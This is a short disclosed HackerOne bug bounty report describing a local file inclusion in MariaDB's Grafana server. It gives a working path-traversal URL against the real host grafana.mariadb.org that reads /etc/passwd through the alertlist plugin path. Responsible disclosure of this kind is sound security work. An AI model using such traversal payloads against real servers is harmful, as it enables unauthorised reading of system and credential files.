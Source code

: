 # Grafana LFI on https://grafana.mariadb.org

## Report Details
- **Report ID**: 1419213
- **URL**: https://hackerone.com/reports/1419213
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-12-07T16:53:49.050Z
- **Disclosed**: 2022-01-06T17:57:58.942Z

## Reporter
- **Username**: tess
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mariadb

## Vulnerability Information
Hello team,

There is an LFI on `https://grafana.mariadb.org/public/plugins/alertlist/../../../../../../../../../../../../../../../../../../../etc/passwd`


{F1537157}

## Impact

LFI

## Attachments
- Screen_Shot_2021-12-07_at_11.53.55_AM.png
